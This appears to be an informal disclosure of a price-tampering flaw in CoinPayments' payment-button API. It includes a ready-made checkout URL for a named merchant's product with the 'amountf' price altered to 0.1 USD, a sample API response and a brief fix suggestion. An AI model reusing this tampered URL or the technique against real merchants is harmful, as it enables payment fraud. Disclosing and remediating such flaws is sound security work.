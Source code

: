 in 2022 i found a vulnerabilitie in Coinpayments api, the website is likely not properly validating or securing the user input from the URL parameter
allowing an attacker to modify the price directly. 

vulnerable url: https://www.coinpayments.net/index.php?cmd=_pay_simple&reset=1&merchant=452f63dd60678a63ce74eef80f69d284&item_name=Synapse%20X&item_desc=One%20redeemable%20serial%20key%20for%20Synapse%20X&item_number=1&currency=USD&amountf=0.1&want_shipping=0&success_url=https://x.synapse.to/success.html&cancel_url=https://x.synapse.to/success.html
risk: critical

<h2>summary</h2>:

	"<input type="hidden" name="amountf" value="1.00">"
  
  when you buy a product that have a payment method with coinpayments the merchant tool button api will send a post request with the following details:
          {
              "error":"ok",
               "result":{
                  "amount":"0.10",
                  "address":"ZZZ",
                  "dest_tag":"YYY",
                  "txn_id":"XXX",
                  "confirms_needed":"10",
                  "timeout":9000,
                  "cmd":"_pay_simple","reset":"1","merchant":"{merchent}","item_name":"{product_name}","item_desc":"{item_desc}","item_number":1,"currency":"USD","amountf":0,"want_shipping":0,"success_url":"https://x.synapse.to/success.html","cancel_url":"https://x.synapse.to/success.html"

            }
          }

     when you change the parameter "amountf" the api will not check if its right or no its automatically processed and it will be the price of the product
     and when you pay the modified price which is 0.10$ minimum it will redirect you to success url and the payment is done and the real price has been modified
     
    solution:
      perform access validation.
      the price parameter should not be filled with the user
      
read more about the idor vulnerabilitie: https://portswigger.net/web-security/access-control/idor


https://media.discordapp.net/attachments/980461133699878982/1043611362917630022/image.png?width=1127&height=585

and like you see here the price really changed not just the value of it

